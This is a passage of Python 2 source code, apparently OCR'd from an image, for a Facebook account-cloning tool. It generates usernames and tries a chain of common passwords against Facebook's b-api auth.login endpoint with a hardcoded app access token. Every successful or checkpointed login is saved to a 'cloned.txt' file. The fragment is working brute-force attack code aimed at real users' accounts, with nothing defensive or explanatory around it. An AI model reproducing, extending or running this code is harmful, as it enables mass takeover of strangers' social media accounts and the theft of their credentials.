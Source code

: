                     q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(✓)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;93m(✓) ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Bangaldesh123"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(✓)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;93m(✓) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="556677"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(✓)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;93m(✓) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(✓)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)